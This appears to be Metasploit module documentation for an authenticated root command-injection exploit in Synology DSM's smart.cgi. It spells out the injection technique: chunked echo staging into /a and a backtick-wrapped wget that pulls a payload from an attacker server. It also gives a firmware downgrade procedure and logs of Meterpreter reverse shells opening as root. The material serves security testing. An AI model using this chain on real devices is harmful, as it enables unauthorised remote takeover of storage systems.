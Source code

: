 ## Vulnerable Application

This module exploits a vulnerability found in Synology DiskStation Manager (DSM)
versions < 5.2-5967-5, which allows the execution of arbitrary commands under root
privileges after website authentication.

The vulnerability is located in `webman/modules/StorageManager/smart.cgi`, which
allows appending of a command to the device to be scanned.  However, the command
with drive is limited to 30 characters.  A somewhat valid drive name is required,
thus /dev/sd is used, even though it doesn't exist.  To circumvent the character
restriction, a wget input file is staged in /a, and executed to download our payload
to /b.  From there the payload is executed.  A wfsdelay is required to give time
for the payload to download, and the execution of it to run.

A more detailed explination of exploitation steps:

1. We first clean the env by deleting `/a`, and `b`
2. we use `echo -n` to append our IP:PORT for our staging server to `/a`.  This is
done in small chunks to stay under the character limit.
3. we call `wget -i /a -O b` to write our payload to `b` in `/usr/syno/synoman/webman/modules/StorageManager`
4. we wait for HTTP Server to receive the `wget` request and send back the payload.  Then we execute it.

### Notes

`smart.cgi` and our payload are located in `/usr/syno/synoman/webman/modules/StorageManager`.

`/var/log/messages` will contain logs of exploitation:

```
May 19 16:35:50 oldNas smart.cgi: smart.cpp:477 smartctl system command failed cmd: /usr/syno/bin/smartctl -d sat -t short /dev/sd`wget -i /a -O b` > /dev/null 2>&1 ret: 4
May 19 16:35:50 oldNas smart.cgi: smart.cpp:846 error
```

No randomization was chosen on the `a` and `b` file names since we're so limited on characters as it is.
While it would be possible to randomize a single character, it didn't seem worth the effort.

### Device Downgrade

The vulnerable DSM can be downloaded from [Synology](https://archive.synology.com/download/DSM/release/5.2/5644/)

Essentially Synology doesn't want you to downgrade. In order to do so, we need to mount the recovery boot loader
and overwrite it with synology 5.2.  Then when we cause an issue (by removing the disks on boot), it will boot
to the recovery.  Since the recovery is 5.2, it will let us install the 'current' version of 5.2.

You'll want to watch [Downgrade DSM6.x to DSM 5.2](https://youtube.com/watch?v=DFtOmEv63n4)

The notes from the video are:

1. Turn on synology and backup data if needed.
2. Create a shared folder. ("test" is used in this guide)
3. Locally, extract 4 files from DSM 5644.pat (grub_cksum.syno, rd.gz, zImage, checksum.syno)
and place the files in the newly created shared folder on the NAS.
4. Enable telnet/ssh in the DSM control panel.
5. telnet/ssh to the diskstation.
6. Log in as admin.
7. Type `sudo su`. The password it asks for will also be the admins password.
8. Type `cd /dev` to change to the devices directory.
9. Type `ls synoboot2` to make sure synoboot2 is listed.
10. Type `mkdir /mnt/synoboot` to make a directory to mount to.
11. Type `mount synoboot2 /mnt/synoboot` to mount the boot files to the directory we created.
12. Type `cd /mnt/synoboot` to change to that directory.
13. Type `ls` to view the files in the directory.
(note that the names of the 4 files we put in the shared folder, should be there.
Although these ones listed are the DSM6 versions)
14. Type `cp /volume1/test/checksum.syno /mnt/synoboot`.
15. Type `cp /volume1/test/grub_cksum.syno /mnt/synoboot`.
16. Type `cp /volume1/test/rd.gz /mnt/synoboot`.
17. Type `cp /volume1/test/zImage /mnt/synoboot`.
18. Go back into the DSM interface and shutdown. Once the device is shutdown, remove the disks.
(This step is important because if you do not remove the disks,
the next powerup will detect an issue and recover the DSM6 boot image)
19. Power the device up. Should say no disks inserted.
Before clicking the connect again button, put the hard disks back in and wait for the HDD LED's to light up.
20. If disks are in, click the connect again button.
Next page should come up saying to reinstall DSM.
Make sure to choose the 5967 pat file so that the bootimage is overwritten correctly.
21. Good to go! Data should remain intact as long as it is in a shared folder,
and DSM should be a completely stock 5.2 - 5967.

## Verification Steps

  1. Install the 5.2 vulnerable DSM
  2. Start msfconsole
  3. Do: ```use exploit/linux/http/synology_dsm_smart_exec_auth```
  4. Do: ```set username <username>```
  5. Do: ```set password <password>```
  6. Do: ```run```
  7. You should get a root shell.

## Options

### Password

Password for website login.  Default is `password`.

### Username

Username for website login.  Default is `admin`.

### wfsdelay

Wfsdelay needs to be at least a couple seconds to allow for payload download and staging.  Default is `10`.

## Scenarios

### DS412+ with DSM 5.2-5644

  ```
  [*] Processing synology.rc for ERB directives.
  resource (synology.rc)> use modules/exploits/linux/http/synology_dsm_smart_exec_auth
  resource (synology.rc)> set payload python/meterpreter/reverse_tcp
  payload => python/meterpreter/reverse_tcp
  resource (synology.rc)> set rhosts 2.2.2.2
  rhosts => 2.2.2.2
  resource (synology.rc)> set lport 60111
  lport => 60111
  resource (synology.rc)> set lhost 1.1.1.1
  lhost => 1.1.1.1
  resource (synology.rc)> set srvhost 1.1.1.1
  srvhost => 1.1.1.1
  resource (synology.rc)> set username admin
  username => admin
  resource (synology.rc)> set password password
  password => password
  resource (synology.rc)> set verbose true
  verbose => true
  resource (synology.rc)> rexploit
  [*] Reloading module...
  [*] Started reverse TCP handler on 1.1.1.1:60111 
  [*] Trying to detect installed version
  [*] Model DS412+ with version 5.2-5644 detected
  [*] Attempting Login
  [*] Using URL: http://1.1.1.1:8080/
  [*] Cleaning env
  [*] Staging wget with: echo -n '1.1'>>/a
  [*] Staging wget with: echo -n '.1.1:'>>/a
  [*] Staging wget with: echo -n '8080'>>/a
  [*] Requesting payload pull
  [+] HTTP Server request received, sending payload
  [*] Executing payload
  [*] Sending stage (53755 bytes) to 2.2.2.2
  [*] Meterpreter session 1 opened (1.1.1.1:60111 -> 2.2.2.2:42353) at 2020-05-19 20:13:33 -0400
  [*] Server stopped.
  [!] This exploit may require manual cleanup of '/usr/syno/synoman/webman/modules/StorageManager/b' on the target
  [!] This exploit may require manual cleanup of '/a' on the target

  meterpreter > 
  [+] Deleted /usr/syno/synoman/webman/modules/StorageManager/b
  [+] Deleted /a

  meterpreter > getuid
  Server username: root
  meterpreter > sysinfo
  Computer     : oldNas
  OS           : Linux 3.10.35 #5644 SMP Thu Nov 12 17:18:22 CST 2015
  Architecture : x64
  Meterpreter  : python/linux
  meterpreter > cat /etc.defaults/VERSION
  majorversion="5"
  minorversion="2"
  buildphase="hotfix"
  buildnumber="5644"
  smallfixnumber="0"
  builddate="2015/11/12"
  buildtime="17:17:21"
  meterpreter > 
  ```

### DS410 with DSM 5.2-5644

This unit's version was not able to be determined automatically.  `forceexploit` was set to `true` to enable it to run.

```
msf5 exploit(linux/http/synology_dsm_smart_exec_auth) > run

[*] Started reverse TCP handler on 192.168.135.168:4567 
[*] Trying to detect installed version
[*] Attempting Login
[*] Using URL: http://192.168.135.168:8080/
[*] Cleaning env
[*] Staging wget with: echo -n '192.168'>>/a
[*] Staging wget with: echo -n '.135.16'>>/a
[*] Staging wget with: echo -n '8:8080'>>/a
[*] Requesting payload pull
[+] HTTP Server request received, sending payload
[*] Executing payload
[*] Sending stage (53755 bytes) to 192.168.132.107
[*] Meterpreter session 1 opened (192.168.135.168:4567 -> 192.168.132.107:54951) at 2020-05-20 13:53:18 -0500
[*] Server stopped.
[!] This exploit may require manual cleanup of '/usr/syno/synoman/webman/modules/StorageManager/b' on the target
[!] This exploit may require manual cleanup of '/a' on the target

meterpreter > 
[+] Deleted /usr/syno/synoman/webman/modules/StorageManager/b
[+] Deleted /a

meterpreter > sysinfo
Computer     : DiskStation
OS           : Linux 2.6.32.12 #5644 Thu Nov 12 17:17:40 CST 2015
Architecture : ppc
Meterpreter  : python/linux
meterpreter > exit
```
